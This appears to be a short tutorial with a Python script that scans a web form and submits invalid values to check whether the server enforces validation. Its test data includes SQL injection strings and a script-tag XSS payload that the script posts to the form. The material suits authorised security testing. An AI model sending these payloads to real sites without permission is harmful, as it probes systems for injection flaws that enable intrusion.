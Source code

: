 Python script using `requests` and `BeautifulSoup` to automate testing for client-side validation bypass. This script will:  

1. **Find input fields** on a form.  
2. **Submit invalid data** while bypassing JavaScript validation.  
3. **Check server responses** to see if it accepts the invalid input.  

---

### **Requirements**
Install dependencies:
```bash
pip install requests beautifulsoup4
```

---

### **Python Script: Bypassing Client-Side Validation**
```python
import requests
from bs4 import BeautifulSoup

# Target form URL
URL = "https://example.com/order"

# Headers to mimic a real browser
HEADERS = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
    "Content-Type": "application/x-www-form-urlencoded"
}

# Test cases: Inject invalid data to bypass client-side validation
TEST_DATA = {
    "quantity": ["9999", "-1", "0", "abc", "' OR 1=1 --"],
    "email": ["invalid-email", "test@.com", "test@ex'ample.com"],
    "name": ["<script>alert(1)</script>", "admin' --"],
}

def find_form_fields(url):
    """Extract input field names from the form."""
    response = requests.get(url, headers=HEADERS)
    soup = BeautifulSoup(response.text, "html.parser")
    form = soup.find("form")

    if not form:
        print("[!] No form found on the page.")
        return []

    inputs = form.find_all("input")
    fields = [inp.get("name") for inp in inputs if inp.get("name")]
    print(f"[+] Found form fields: {fields}")
    return fields

def test_validation(url, fields):
    """Test each field with invalid data to check for server-side validation."""
    for field in fields:
        if field not in TEST_DATA:
            continue

        for invalid_value in TEST_DATA[field]:
            print(f"[*] Testing {field} with value: {invalid_value}")

            # Prepare form data with one invalid field at a time
            data = {f: "valid" for f in fields}  # Fill with dummy valid data
            data[field] = invalid_value  # Inject invalid data

            # Send POST request
            response = requests.post(url, headers=HEADERS, data=data)

            # Analyze response
            if "error" not in response.text.lower():
                print(f"[!] Possible validation bypass on {field}: {invalid_value}")
            else:
                print(f"[+] Server properly validated {field}")

def main():
    print("[*] Scanning form...")
    fields = find_form_fields(URL)
    
    if fields:
        print("[*] Testing validation bypass...")
        test_validation(URL, fields)

if __name__ == "__main__":
    main()
```

---

### **How It Works**
1. **Finds form fields** on the target page using BeautifulSoup.  
2. **Attempts to submit invalid data** (e.g., `9999` for quantity, XSS payloads, SQL injection).  
3. **Checks the server response** to determine if it properly validates the input.  
4. **Reports fields that may be vulnerable** to bypassing client-side validation.  

---

### **Expected Output**
```
[*] Scanning form...
[+] Found form fields: ['name', 'email', 'quantity']
[*] Testing validation bypass...
[*] Testing quantity with value: 9999
[!] Possible validation bypass on quantity: 9999
[*] Testing email with value: invalid-email
[+] Server properly validated email
[*] Testing name with value: <script>alert(1)</script>
[!] Possible validation bypass on name: <script>alert(1)</script>
```

---

### **Next Steps**
🚀 **Enhance this script to**:  
- Automatically detect `maxlength`, `pattern`, or `required` attributes.  
- Try different `Content-Type` headers (e.g., JSON payloads).  
- Log responses for further analysis.  
